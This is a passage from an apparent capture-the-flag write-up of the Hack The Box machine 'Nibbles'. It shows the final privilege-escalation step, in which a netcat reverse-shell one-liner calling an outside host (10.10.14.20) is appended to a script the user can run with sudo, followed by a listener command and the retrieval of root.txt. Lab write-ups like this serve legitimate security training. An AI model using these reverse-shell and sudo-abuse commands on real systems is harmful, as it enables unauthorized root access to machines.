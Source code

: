 All we'll need to do is add a line to the end of the script, containing our reverse shell.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 7600 > /tmp/f" >> monitor.sh
```

Open a listener with `nc -lvnp 7600`, and run `sudo /home/nibbler/personal/stuff/monitor.sh` to kick off the script. We can see the reverse shell on the listener, and grab `root.txt` from `/root/root.txt`.

![](/assets/htb-nibbles/root_proof.png)

